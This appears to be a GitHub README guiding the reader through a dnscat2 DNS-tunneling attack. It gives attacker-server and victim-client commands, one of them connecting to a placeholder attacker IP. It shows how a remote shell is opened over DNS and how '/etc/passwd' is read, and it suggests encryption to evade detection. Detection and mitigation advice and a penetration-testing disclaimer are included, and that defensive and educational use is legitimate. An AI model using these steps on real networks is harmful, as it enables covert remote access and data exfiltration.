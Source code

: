 # **DNS Tunneling Attack using dnscat2**

## **Overview**
This document provides a detailed guide on using **dnscat2** to establish a **DNS-based covert communication channel**, allowing command execution and data exfiltration over DNS. This method is particularly useful in **restricted network environments** where only DNS traffic is permitted, bypassing firewalls that block direct internet access.

- **Attacker (Server):** Runs the **dnscat2** server to listen for incoming DNS queries.
- **Victim (Client):** Runs the **dnscat2** client to send encoded commands via DNS queries.
- **DNS Infrastructure:** Used as a covert channel to relay data, allowing an interactive shell over DNS.

## **Attack Context**
Many corporate and public networks (e.g., **hotels, airports, corporate environments**) restrict internet access but still allow **DNS traffic**. Attackers can exploit this by using DNS queries as a **covert data exfiltration channel** or **backdoor for remote access**.

### **🔹 Common Use Cases**
- **Bypassing Captive Portals & Firewalls**
- **Remote Shell Over DNS**
- **Data Exfiltration from Restricted Networks**
- **Stealthy Malware Command & Control (C2)**

---

## **1️⃣ Setting Up the `dnscat2` Server (Attacker)**
The **dnscat2 server** is responsible for handling incoming DNS queries and establishing a reverse shell with the client.

### **🔹 Step 1: Install Dependencies**
Install Ruby and `dnscat2` on the **attacker's machine**:
```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
gem install bundler
bundle install
```

### **🔹 Step 2: Start the dnscat2 Server**
Run the **dnscat2** server to start listening for connections:
```bash
ruby ./dnscat2.rb
```
Expected output:
```
[+] dnscat2 server started
Listening for incoming DNS connections...
```

### **🔹 Step 3: (Optional) Configure the Authoritative DNS Server**
If using a **custom domain**, set up an **NS (Name Server) record**:
1. **Go to your domain's DNS settings**.
2. Create a new **NS record**:
   ```
   tunnel.example.com    NS    ns1.example.com
   ```
3. Add an **A record** for `ns1`:
   ```
   ns1.example.com    A    <YOUR_ATTACKER_SERVER_IP>
   ```
4. Restart the `dnscat2` server with the domain:
   ```bash
   ruby ./dnscat2.rb --dns domain=tunnel.example.com
   ```

---

## **2️⃣ Running the `dnscat2` Client (Victim)**
The **client machine** (inside the restricted network) needs to run `dnscat2` to establish a connection with the attacker's server.

### **🔹 Step 1: Install dnscat2 on the Victim Machine**
```bash
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client
make
```

### **🔹 Step 2: Connect to the Attacker's DNS Server**
If connecting **directly to the attacker's IP**, run:
```bash
./dnscat --dns server=<ATTACKER_IP>
```
If using a **custom domain**, run:
```bash
./dnscat --dns domain=tunnel.example.com
```
Expected output:
```
[*] Connected to tunnel.example.com
[*] Session 1 opened!
```

---

## **3️⃣ Gaining a Remote Shell Over DNS**
Once the client is connected, open an **interactive session** on the **attacker’s machine**:
```bash
session -i 1
```
Start a shell session:
```bash
shell
```
Now, you have a **fully interactive shell over DNS**!

### **🔹 Example Commands in the Remote Shell**
```bash
whoami
ls -la
uname -a
cat /etc/passwd
```

---

## **4️⃣ Debugging & Troubleshooting**
### **🔹 Check If DNS Queries Are Reaching the Server**
Run the following on the attacker’s machine:
```bash
dig @<ATTACKER_IP> test.example.com TXT
```
If no response, check **firewall rules**:
```bash
sudo ufw allow 53/udp
sudo ufw allow 53/tcp
```

### **🔹 Capture DNS Traffic for Analysis**
Monitor incoming queries:
```bash
sudo tcpdump -i eth0 port 53
```

### **🔹 Use Verbose Mode for More Debugging**
```bash
./dnscat --verbose --dns domain=tunnel.example.com
```

---

## **5️⃣ Detection & Mitigation Strategies**
### **🔹 How Network Defenders Can Detect DNS Tunneling**
- **Monitor for High Volumes of DNS Queries**: Normal DNS usage is low; tunneling generates **unusually high traffic**.
- **Check for Large TXT Record Responses**: Standard DNS TXT records are **small**, whereas tunneling responses contain large encoded data.
- **Look for Suspicious Long Subdomains**: Tunneling encodes commands in **long subdomains** that are uncommon in normal DNS traffic.
- **Use DNS Filtering & Rate Limiting**: Enforce **query limits** and **inspect TXT record payloads**.
- **Deploy Deep Packet Inspection (DPI)**: Detects anomalies in **DNS payloads**.

### **🔹 How to Prevent This Attack**
- Block unauthorized external **NS delegation**.
- Restrict DNS queries to **known resolvers**.
- Use **DNS firewall solutions** (e.g., Cisco Umbrella, Cloudflare Gateway).
- Monitor **outbound DNS queries** for **excessive TXT lookups**.

---

## **6️⃣ Ethical & Legal Considerations**
⚠ **This tool should only be used for penetration testing, security research, and educational purposes with proper authorization.** Unauthorized use of DNS tunneling in real-world environments **may violate laws and network policies**.

## **7️⃣ Potential Enhancements**
- **Data Exfiltration via DNS**: Automate file transfers.
- **Encrypt Communications**: Use **AES encryption** to evade detection.
- **Custom Payloads**: Tunnel specific protocols over DNS.

---

## **8️⃣ Summary of Attack Process**
✅ **Attacker starts `dnscat2` server** to listen for DNS connections.  
✅ **Victim runs `dnscat2` client**, sending queries over DNS.  
✅ **Server establishes an interactive session** over DNS.  
✅ **Attacker gains a remote shell** inside the restricted network.  
✅ **Can be detected by monitoring DNS query volume, TXT records, and anomalies.**

---

## **9️⃣ License & Disclaimer**
- This project is released under the **MIT License**.
- The authors **do not encourage unauthorized use** of this tool in real-world scenarios where it may violate **legal or ethical guidelines**.

